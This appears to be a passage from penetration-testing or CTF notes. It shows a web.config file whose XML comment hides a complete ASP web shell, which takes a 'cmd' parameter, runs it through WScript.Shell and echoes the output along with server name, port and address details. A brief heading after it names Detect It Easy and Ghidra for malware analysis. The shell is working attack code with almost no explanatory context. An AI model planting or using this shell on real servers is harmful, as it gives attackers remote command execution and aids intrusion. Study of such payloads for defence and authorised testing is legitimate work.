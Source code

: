 ```vb
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
<%Response.write("<!-"&"-") %>
-->
```

## Malware Analysis

use Detect It Easy to detect source language (already installed on your kali)

ghidra
